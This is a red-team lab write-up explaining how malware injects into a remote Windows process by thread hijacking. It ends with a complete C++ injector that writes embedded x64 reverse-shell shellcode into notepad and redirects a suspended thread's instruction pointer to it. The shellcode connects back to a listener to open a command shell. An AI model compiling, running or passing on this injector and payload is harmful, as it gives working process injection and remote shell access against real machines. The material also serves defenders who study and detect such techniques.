

# Injecting to Remote Process via Thread Hijacking

This is a quick lab that looks at the API sequence used by malware to inject into remote processes by leveraging a well known thread hijacking technique.

## Overview

Below lists the API calls that are required to execute this technique:

1. Open a handle `targetProcessHandle` to the process \(notepad in our case\) we want to inject to with `OpenProcess`
2. Allocate some executable memory `remoteBuffer` in the target process with `VirtualAllocEx`
3. Write shellcode we want to inject into the memory `remoteBuffer` \(allocated in step 2\), using `WriteProcessMemory`
4. Find a thread ID of the thread we want to hijack in the target process. In our case, we will fetch the thread ID of the first thread in our target process \(notepad\). We will leverage `CreateToolhelp32Snapshot` to create a `snapshot` of target process's threads and eumerate them with `Thread32Next`. This will give us the thread ID we will be hijacking.
5. Open a handle `threadHijacked` to the thread to be hijacked using `OpenThread`
6. Suspend the target thread - the thread we want to hijack \(`threadHijacked`\) with `SuspendThread`
7. Retrieve the target thread's context with `GetThreadContext`
8. Update the target thread's \(retrieved in step 6\) instruction pointer \(`RIP` register\) to point to the shellcode, which was written into the target process's memory in step 3 using `WriteProcessMemory`
9. Commit the hijacked thread's \(upadated in step 7\) new context with `SetThreadContext`
10. Resume the hijacked thread with `ResumeThread`
11. Enjoy the reverse shell

## Walkthrough

Steps 1-3 of the technique overview are self-explanatory and have been covered in more detail in my notes in [Code & Process Injection](./) section.

In step 4, what happens is that we simply find our target process's \(notepad\) main thread ID as seen in the below image:


In step 5, a handle to that thread `14100` is opened with:

```cpp
threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, 14100);
```


In step 6, that thread \(TID `14100`\) with handle `threadHijacked` is suspended with

```cpp
SuspendThread(threadHijacked);
```


In step 7, we retrieve the hijacked thread's context, which contains CPU registers at that time, among other things. We need to capture the context, since we will be updating the hijacked thread's instruction pointer RIP in steps 8 and 9, and we do not want the hijacked process to crash once we resume it:


After executing steps 8 and 9, the hijacked thread's RIP is now pointing to the shellcode in our target process notepad.exe memory location `0x000002736ccf0000`:


In step 10, once the hijacked thread \(`threadHijacked`\) is resumed, the shellcode is executed and a reverse shell is executed:


Below shows the technique in action:



## Code

```cpp
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
	unsigned char shellcode[] =
		"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
		"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
		"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
		"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
		"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
		"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
		"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
		"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
		"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
		"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
		"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
		"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
		"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
		"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
		"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
		"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
		"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
		"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
		"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
		"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
		"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
		"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
		"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
		"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
		"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
		"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
		"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
		"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
		"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
		"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
		"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	HANDLE targetProcessHandle;
	PVOID remoteBuffer;
	HANDLE threadHijacked = NULL;
	HANDLE snapshot;
	THREADENTRY32 threadEntry;
	CONTEXT context;
	
	DWORD targetPID = 15048;
	context.ContextFlags = CONTEXT_FULL;
	threadEntry.dwSize = sizeof(THREADENTRY32);
	
	targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
	remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	
	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	Thread32First(snapshot, &threadEntry);

	while (Thread32Next(snapshot, &threadEntry))
	{
		if (threadEntry.th32OwnerProcessID == targetPID)
		{
			threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
			break;
		}
	}
	
	SuspendThread(threadHijacked);
	
	GetThreadContext(threadHijacked, &context);
	context.Rip = (DWORD_PTR)remoteBuffer;
	SetThreadContext(threadHijacked, &context);
	
	ResumeThread(threadHijacked);
}
```

